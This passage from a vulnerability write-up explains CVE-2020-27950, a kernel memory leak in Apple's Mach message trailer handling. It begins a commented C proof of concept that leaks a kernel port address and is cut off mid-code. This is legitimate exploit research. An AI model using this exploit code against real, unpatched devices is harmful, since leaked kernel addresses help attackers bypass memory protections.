 Were you can see that if the `option` is bigger or equals to `MACH_RCV_TRAILER_AV` (7), the field **`msgh_ad`** is initialized to `0`.

If you noticed, **`msgh_ad`** was still the only field of the trailer that was not initialized before which could contain a leak from previously used memory.

So, the way avoid initializing it would be to pass an `option` value that is `5` or `6`, so it passes the first `if` check and doesn't enter the `if` that initializes `msgh_ad` because the values `5` and `6` don't have any trailer type associated.

### Basic PoC

Inside the [original post](https://www.synacktiv.com/en/publications/ios-1-day-hunting-uncovering-and-exploiting-cve-2020-27950-kernel-memory-leak), you have a PoC to just leak some random data.

### Leak Kernel Address PoC

The Inside the [original post](https://www.synacktiv.com/en/publications/ios-1-day-hunting-uncovering-and-exploiting-cve-2020-27950-kernel-memory-leak), you have a PoC to leak a kernel address. For this, a message full of `mach_msg_port_descriptor_t` structs is sent in the message cause the field `name` of this structure in userland contains an unsigned int but in kernel the `name` field is a struct `ipc_port` pointer in kernel. Thefore, sending tens of these structs in the message in kernel will mean to **add several kernel addresses inside the message** so one of them can be leaked.

Commetns were added for better understanding:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <mach/mach.h>

// Number of OOL port descriptors in the "big" message.
// This layout aims to fit messages into kalloc.1024 (empirically good on impacted builds).
#define LEAK_PORTS 50

// "Big" message: many descriptors → larger descriptor array in kmsg
typedef struct {
    mach_msg_header_t header;
    mach_msg_body_t body;
    mach_msg_port_descriptor_t sent_ports[LEAK_PORTS];
} message_big_t;

// "Small" message: fewer descriptors → leaves more room for the trailer
// to overlap where descriptor pointers used to be in the reused kalloc chunk.
typedef struct {
    mach_msg_header_t header;
    mach_msg_body_t body;
    mach_msg_port_descriptor_t sent_ports[LEAK_PORTS - 10];
} message_small_t;

int main(int argc, char *argv[]) {
    mach_port_t port;       // our local receive port (target of sends)
    mach_port_t sent_port;  // the port whose kernel address we want to leak

    /*
     * 1) Create a receive right and attach a send right so we can send to ourselves.
     *    This gives us predictable control over ipc_kmsg allocations when we send.
     */
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);

    /*
     * 2) Create another receive port (sent_port). We'll reference this port
     *    in OOL descriptors so the kernel stores pointers to its ipc_port
     *    structure in the kmsg → those pointers are what we aim to leak.
```